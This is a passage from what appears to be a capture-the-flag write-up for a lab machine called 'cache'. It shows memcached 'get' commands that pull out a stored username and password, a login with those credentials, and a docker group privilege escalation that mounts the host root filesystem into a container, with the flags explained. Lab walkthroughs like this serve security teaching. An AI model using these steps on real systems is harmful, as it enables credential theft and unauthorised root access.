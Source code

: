 ### Extracting values from Key

```bash
get <key>
```

In this case the key are link, user, passwd, file, account

```bash
get user
VALUE user 0 5
**luffy**
END
get passwd
VALUE passwd 0 9
**0n3_p1ec3**
END
```

Lets try to login as luffy using the password. It works.

If we look at the groups luffy is in

```bash
luffy@cache:/$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```

Docker group is not what we normally assign to the user. We can mount the root file system inside a docker container to get access to the root file system. Let's try that

# Docker Privilege Escalation

Lets find if there is any docker image in the system

```bash
luffy@cache:/home$ docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        12 months ago       64.2MB
```

So there is a ubuntu image. Lets run a container which mounts root file system inside the docker container.

```bash
luffy@cache:/$ docker run -v /:/tmp/root --rm -it ubuntu /bin/bash
```

Here

**-v / : /tm/root**  : mount the / directory in host inside /tmp/root of the container

**—rm** : remove the container after user exits the container

**—it** : run in interactive mode and allocate a pseudo TTY. If this is not used, docker container exits automatically.

In all what this does is creates a container from ubuntu image and mounts / from the host machine inside the /tmp/root directory of the docker container and assigns a tty to run /bin/bash. When the user exits the container the container is removed.
